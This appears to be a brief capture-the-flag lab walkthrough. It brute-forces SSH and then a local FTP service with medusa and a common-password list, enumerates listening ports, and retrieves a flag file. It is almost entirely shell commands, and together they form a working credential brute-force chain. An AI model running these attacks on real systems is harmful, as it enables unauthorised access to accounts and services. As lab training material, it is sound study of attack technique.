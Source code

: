 ```shell-session
medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

## Gaining access
```shell-session
ssh sshuser@<IP> -p PORT
```

## Expanding the Attack Surface
- Once inside the system, we must find potential attack surfaces (FTP is up)
```shell-session
netstat -tulpn | grep LISTEN
```

## Targeting the FTP Server
```shell-session
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
```

## Retreiving the flag
```shell-session
ftp ftp://ftpuser:<PASWORD>@localhost
```
```shell-session
cat flag.txt
```

